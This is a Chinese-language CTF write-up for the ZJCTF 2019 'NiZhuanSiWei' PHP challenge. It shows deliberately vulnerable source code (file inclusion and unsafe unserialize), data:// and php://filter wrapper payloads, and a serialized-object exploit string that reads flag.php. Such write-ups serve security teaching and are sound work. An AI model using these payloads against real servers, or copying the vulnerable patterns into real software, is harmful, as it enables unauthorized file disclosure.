 #ZJCTF 2019]NiZhuanSiWei

代码审计
```
 <?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];

if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")) #判断$text是否为空以及文件里的内容是否为welcome to the zjctf
{
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";

    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    } #如果$file的文件名有flag，则显示Not now并退出程序

else{
        include($file);  //useless.php  #包含并执行文件里的内容
        $password = unserialize($password); #对$password进行反序列化
        echo $password; #显示$password的内容
    }

}

else{
    highlight_file(__FILE__);
}
?> 
```

看到file_get_contents()和include()两个文件包含函数，我们可以想到是不是可以使用data伪协议。通过判断第一个if，我们可以知道我们要经过file_get_contents()函数，此时
我们可以使用data协议导入内容，从而经过第一个if
```
?text=data://text/plain,welcome to the zjctf
```
然后我们看到有一个include()函数，同时，我们还能看到一个提示useless.php。此时，我们可以通过php伪协议来对useless.php文件进行读取，
```
?file=php://filter/read=convert.base64-encode/resource=useless.php
```

我们可以读取到用base64加密的useless.php的内容
```
PD9waHAgIAoKY2xhc3MgRmxhZ3sgIC8vZmxhZy5waHAgIAogICAgcHVibGljICRmaWxlOyAgCiAgICBwdWJsaWMgZnVuY3Rpb24gX190b3N0cmluZygpeyAgCiAgICAgICAgaWYoaXNzZXQoJHRoaXMtPmZpbGUpKXsgIAogICAgICAgICAgICBlY2hvIGZpbGVfZ2V0X2NvbnRlbnRzKCR0aGlzLT5maWxlKTsgCiAgICAgICAgICAgIGVjaG8gIjxicj4iOwogICAgICAgIHJldHVybiAoIlUgUiBTTyBDTE9TRSAhLy8vQ09NRSBPTiBQTFoiKTsKICAgICAgICB9ICAKICAgIH0gIAp9ICAKPz4gIAo=
```

通过base64解密，我们可以得到一段php代码
```
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

通过这段php代码，我们可以构造exp
```
<?php  

class Flag{  //flag.php  
    public $file='flag.php';
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
$a=new Flag();
echo serialize($a);
?>  
```
我们将显示结果赋值于$password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}

然后我们构造最后的payload
```
?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

然后查看页面源代码，我们可以找到flag

